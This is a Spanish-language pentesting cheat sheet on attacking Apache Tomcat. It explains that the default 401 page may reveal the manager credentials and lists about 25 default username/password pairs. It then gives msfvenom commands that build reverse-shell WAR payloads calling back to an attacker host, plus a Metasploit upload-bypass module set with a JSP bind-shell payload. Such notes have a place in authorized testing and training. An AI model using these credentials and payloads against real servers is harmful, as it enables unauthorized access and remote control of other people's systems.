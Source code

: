 ```yaml
---
title: "Tomcat"
layout: "single"
category: "Servicios comunes"
slug: "servicios-comunes/apache-tomcat"
date: "2025-09-30"
---
```


### Acceso por defecto al portal

Con una instalación por defecto de tomcat, al intentar entrar al panel de administración, si no sabemos la contraseña, al pulsar en **cancel**, por defecto nos redirige a un fichero que dice: **401 Unauthorized** y más abajo nos muestra el **usuario y contraseña**

### Credenciales por defecto
| Username | Password   |
| -------- | ---------- |
| admin    | password   |
| admin    | <blank>    |
| admin    | Password1  |
| admin    | password1  |
| admin    | admin      |
| admin    | tomcat     |
| both     | tomcat     |
| manager  | manager    |
| role1    | role1      |
| role1    | tomcat     |
| role     | changethis |
| root     | Password1  |
| root     | changethis |
| root     | password   |
| root     | password1  |
| root     | r00t       |
| root     | root       |
| root     | toor       |
| tomcat   | tomcat     |
| tomcat   | s3cret     |
| tomcat   | password1  |
| tomcat   | password   |
| tomcat   | <blank>    |
| tomcat   | admin      |
| tomcat   | changethis |
### Reverse shell tomcat con msfvenom
#### Método 1
```bash
msfvenom -p java/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war -o revshell.war
```

#### Método 2
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war -o revshell.war
```

### JSP Payload (metasploit)
```bash
use exploit/multi/http/tomcat_jsp_upload_bypass
set payload java/jsp_shell_bind_tcp
```
